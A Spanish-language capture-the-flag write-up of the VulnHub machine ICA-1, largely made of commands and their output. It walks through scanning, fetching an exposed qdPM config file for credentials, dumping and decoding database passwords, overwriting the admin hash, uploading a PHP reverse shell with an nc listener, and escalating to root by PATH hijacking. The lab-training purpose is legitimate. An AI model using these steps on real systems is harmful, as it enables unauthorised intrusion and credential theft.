
ICA-1
Plataforma: VulnHub · Dificultad: Fácil · Fecha: Agosto 2026
Reconocimiento
Comenzamos identificando la dirección IP de la máquina dentro de
nuestra red utilizando arp-scan:
sudo arp-scan -I eth0 --localnet --ignoredupsUna vez localizada la máquina, obtenemos la dirección IP:
192.168.104.13A continuación realizamos un escaneo completo de puertos para identificar los servicios expuestos:
nmap -p- -sS --min-rate 5000 -n -Pn -vvv 192.168.104.13 -oG allPorts
extractPorts allPortsResultado:
[*] Extracting information...
[*] IP Address: 192.168.104.13
[*] Open ports: 22,80,3306,33060
[*] Ports copied to clipboard
22 -> ssh
80 -> http
3306 -> mysql
33060 -> mysqlxTenemos cuatro puertos abiertos. Ahora realizamos un segundo escaneo más exhaustivo para identificar las versiones y ejecutar scripts básicos de reconocimiento:
nmap -p22,80,3306,33060 -sCV 192.168.104.13 -oN targetedEl escaneo confirma la presencia de SSH, HTTP y los servicios de MySQL. El siguiente paso será revisar la aplicación web.
Enumeración
Accedemos al puerto 80 desde el navegador y encontramos
un panel de autenticación.

En la propia página aparece la referencia a qdPM 9.2, un gestor de proyectos y tareas.
Al investigar esta versión encontramos una vulnerabilidad asociada a la exposición de un archivo de configuración que contiene credenciales de la base de datos.

Exposición de databases.yml
El archivo vulnerable se encuentra en:
/core/config/databases.ymlPodemos descargarlo directamente:
wget http://192.168.104.13/core/config/databases.yml
cat databases.yml
Dentro del archivo encontramos las credenciales utilizadas por qdPM para conectarse a MySQL:
database: qdpm
username: qdpmadmin
password: UcVQCMQk2STVeS6JEnumeración de MySQL
Como el puerto 3306 está expuesto y disponemos de
credenciales válidas, intentamos conectarnos directamente al servidor
MySQL:
mysql -h 192.168.104.13 -P 3306 -u qdpmadmin -pUna vez dentro encontramos varias bases de datos. Entre ellas nos interesan especialmente:
staff
qdpmBase de datos staff
Comenzamos revisando la base de datos staff:
use staff;
show tables;Encontramos las tablas:
department
login
user
Consultamos la tabla user:
select * from user;1 | 1 | Smith | Cyber Security Specialist
2 | 2 | Lucas | Computer Engineer
3 | 1 | Travis | Intelligence Specialist
4 | 1 | Dexter | Cyber Security Analyst
5 | 2 | Meyer | Genetic EngineerLa tabla nos permite relacionar los identificadores de usuario con sus nombres.
Ahora consultamos la tabla login:
select * from login;1 | 2 | c3VSSkFkR3dMcDhkeTNyRg==
2 | 4 | N1p3VjRxdGc0MmNtVVhHWA==
3 | 1 | WDdNUWtQM1cyOWZld0hkQw==
4 | 3 | REpjZVZ5OThXMjhZN3dMZw==
5 | 5 | Y3FObkJXQ0J5UzJEdUpTeQ==Los valores de la tercera columna parecen estar codificados en Base64. Podemos decodificarlos:
echo REpjZVZ5OThXMjhZN3dMZw== | base64 -dAlgunas de estas credenciales pueden reutilizarse para autenticación SSH. Sin embargo, en este caso continuaremos enumerando la aplicación para conseguir acceso mediante otro camino.
Base de datos qdpm
Revisamos ahora la base de datos principal de la aplicación:
use qdpm;
select * from configuration;Encontramos información relacionada con la cuenta de administración:
email: admin@localhost.com
password: $P$EmesnWRcY9GrK0hDzwaV3rvQnMJ/Fx0
El valor de la contraseña tiene el formato utilizado por PHPass.
En lugar de intentar recuperar directamente la contraseña original, aprovechamos que tenemos permisos suficientes sobre la base de datos para comprobar si podemos modificar el valor almacenado.
Comprobación del hash PHPass
La aplicación dispone de una funcionalidad para restablecer la contraseña. Generamos una nueva contraseña desde la propia aplicación y comprobamos si el hash almacenado en la base de datos cambia.
Después de solicitar el cambio obtenemos:
password: $P$EQeida_/QeraPidawcawij082FY01y&Esto confirma que el valor almacenado corresponde a la contraseña de la cuenta y que podemos generar hashes compatibles con PHPass.
Antes de modificar el registro comprobamos los privilegios del usuario utilizado para acceder a MySQL:
SHOW GRANTS FOR 'qdpmadmin'@'localhost';Generación de un nuevo hash
Utilizamos Python y passlib para generar un hash PHPass
compatible:
from passlib.hash import phpass
password = "Password123!"
hash = phpass.hash(password)
print("Password:", password)
print("Hash:", hash)
El hash generado para Password123! puede utilizarse para
actualizar directamente el registro de configuración:
UPDATE qdpm.configuration
SET value = '$P$HZSKdx0gPb32FYXS2JdxuhkabZc9nz1'
WHERE id = 2;Con la contraseña modificada podemos autenticarnos en el panel web como administrador.

Explotación
File Upload → Reverse Shell
Una vez dentro del panel de administración podemos aprovechar una vulnerabilidad de subida de archivos asociada a CVE-2023-45856.
El flujo de explotación consiste en crear primero un usuario con los permisos necesarios para acceder a la funcionalidad vulnerable.

Creamos el usuario, cerramos la sesión administrativa y accedemos utilizando la nueva cuenta.
Una vez autenticados navegamos hasta:
Projects → Add ProjectDurante la creación del proyecto encontramos la sección Attachment, que permite subir archivos.
El archivo subido termina almacenándose en la ruta:
/uploadsDebido a la vulnerabilidad, podemos utilizar esta funcionalidad para subir una reverse shell en PHP.

Una vez subida la reverse shell, accedemos a la ruta correspondiente para provocar su ejecución.

En nuestra máquina atacante ponemos un listener:
nc -lnvp 443
Al acceder al archivo recibimos una conexión como
www-data.
www-data@ica:~$Enumeramos los directorios personales:
ls /homeEncontramos dos usuarios:
dexter
travisMovimiento lateral
Durante la enumeración anterior habíamos encontrado credenciales
asociadas a los usuarios del sistema. Para el usuario
travis tenemos:
echo REpjZVZ5OThXMjhZN3dMZw== | base64 -dObtenemos:
DJceVy98W28Y7wLg
Utilizamos esta contraseña para cambiar al usuario
travis:
su travis
Para trabajar con una terminal más interactiva podemos realizar el siguiente proceso de estabilización:
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184Finalmente encontramos la primera flag:
cat user.txtflag1 -> ICA{Secret_Project}Escalada de privilegios
Análisis del binario get_access
Durante la enumeración encontramos un binario llamado
get_access.

Al ejecutarlo no obtenemos un resultado especialmente útil. El comportamiento del programa hace referencia a una comprobación relacionada con la zona horaria.
Continuamos investigando el usuario dexter. Dentro de su
directorio personal encontramos una nota relacionada con los binarios.

La nota nos da una pista para analizar el contenido del binario
mediante strings:
strings get_accessEntre las cadenas obtenidas encontramos una especialmente interesante:
cat /root/system.info
El binario está ejecutando cat mediante una ruta relativa
en lugar de utilizar una ruta absoluta como
/bin/cat.
cat sin una ruta absoluta, el sistema buscará
el ejecutable siguiendo el orden definido en la variable
PATH.
PATH Hijacking
Primero comprobamos el valor actual de la variable
PATH:
echo "$PATH"/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
Podemos modificar la variable para añadir nuestro propio directorio
al principio del PATH:
export PATH="/tmp:$PATH"
echo "$PATH"/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
Ahora creamos en /tmp un ejecutable llamado
cat. Debido al orden de búsqueda del
PATH, nuestro archivo será encontrado antes que el
cat legítimo del sistema.
cd /tmp
nano catDentro del archivo colocamos:
/bin/bashA continuación hacemos que el archivo sea ejecutable:
chmod +x /tmp/catFinalmente ejecutamos el binario vulnerable:
/opt/get_access
Cuando get_access intenta ejecutar
cat /root/system.info, encuentra primero nuestro
/tmp/cat. En lugar de ejecutar el comando original,
se ejecuta /bin/bash, obteniendo así una shell con los
privilegios con los que se ejecuta el binario.
PATH.
De esta forma conseguimos completar la escalada de privilegios de la máquina.
Resumen de la cadena de ataque
- Descubrimiento de la máquina mediante
arp-scan. - Enumeración de puertos con
nmap. - Identificación de qdPM 9.2 en el puerto HTTP.
- Exposición del archivo
databases.yml. - Obtención de credenciales para MySQL.
- Enumeración de las bases de datos
staffyqdpm. - Obtención de credenciales codificadas en Base64.
- Identificación del hash PHPass del usuario administrador.
- Modificación de la contraseña del administrador mediante MySQL.
- Acceso al panel de administración de qdPM.
- Explotación del file upload para subir una reverse shell.
- Obtención de acceso como
www-data. - Reutilización de credenciales para acceder como
travis. - Obtención de la flag de usuario.
- Análisis del binario
get_access. - Identificación del uso de
catmediante una ruta relativa. - Explotación mediante PATH Hijacking.
- Obtención de una shell con privilegios elevados.